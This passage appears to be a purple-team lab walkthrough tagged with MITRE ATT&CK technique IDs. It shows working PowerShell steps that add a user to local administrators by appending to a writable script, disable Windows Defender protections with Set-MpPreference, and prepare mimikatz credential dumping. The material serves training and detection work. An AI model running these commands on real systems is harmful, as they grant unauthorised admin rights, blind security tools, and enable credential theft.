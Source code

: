 Let's use that to make ourselves admins by appending a command to that file

**Step 1.11**
```PowerShell
[ITSERVER:PowerShell] "net localgroup administrators PurpleUser /add" | Out-File -Append C:\Update.ps1
```
ATT&CK Techniques: `T1078.003`

After a minute or so, we can see that we are now admins.

**Step 1.12**
```PowerShell
[ITSERVER:PowerShell] net localgroup administrators
```
ATT&CK Techniques: `T1069.001`

Let's reopen PowerShell as Administrator to enjoy your new privileges. To not log in to the domain type `.\PurpleUser` as user.

**Hint:** If you experience problems typing `.\PurpleUser` use the Windows on-screen keyboard before starting PowerShell as administrator

**Step 1.13**
```PowerShell
[ITSERVER:PowerShell] whoami /all
```
ATT&CK Techniques: `T1033`

### Security tools tampering

Now that we have admin privileges on this system, let's disable some security tools to make our life simpler...

Let's disable a bunch of useful things in Windows Defender.
We can turn off realtime monitoring (which includes antivirus), behavior monitoring, script scanning, and blocking at first sight.

**Step 1.14**
```PowerShell
[ITSERVER:PowerShell] Set-MpPreference -DisableRealtimeMonitoring 1
[ITSERVER:PowerShell] Set-MpPreference -DisableBehaviorMonitoring 1
[ITSERVER:PowerShell] Set-MpPreference -DisableScriptScanning 1
[ITSERVER:PowerShell] Set-MpPreference -DisableBlockAtFirstSeen 1
```
ATT&CK Techniques: `T1562.001`

Now the system won't put up a fight when we drop malware on it.

### Dumping credentials

Our account is local and not joined to the domain which makes it a bit harder to query Active Directory and move laterally or escalate privileges.
During situational awareness we saw that the system is domain-joined and a domain user is logged in.
Let's use a popular tool `mimikatz` to dump locally cached credentails and get an NTLM hash of that AD user.
